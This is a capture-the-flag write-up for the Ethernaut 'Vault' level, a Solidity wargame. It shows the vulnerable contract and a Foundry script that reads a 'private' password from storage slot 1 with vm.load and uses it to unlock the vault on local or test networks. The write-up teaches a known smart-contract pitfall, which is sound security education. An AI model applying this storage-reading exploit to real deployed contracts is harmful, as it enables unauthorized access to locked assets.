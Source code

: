 # Level 8 - Vault ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/8" %}

### Level Setup

{% hint style="info" %}
Unlock the vault to pass the level!
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Vault.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
{% endcode %}

### Exploit

Private variable aren't secret, they are just not accessible by other smart contracts directly during smart contract execution. They can be read directly from the storage slots.

1. Use foundrys `vm.load` cheatcode to get the data in the slot.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-8

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level8.s.sol" %}

{% code title="script/Level8.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IVault {
    function unlock(bytes32 _password) external;
}

// ================================================================
// │                          LEVEL 8 - VAULT                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IVault targetContract = IVault(targetContractAddress);

        bytes32 password = vm.load(targetContractAddress, bytes32(uint256(1)));
        console.log("Password: %s", bytesToString(password));

        vm.startBroadcast();
        targetContract.unlock(password);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_8_Vault.md" %}

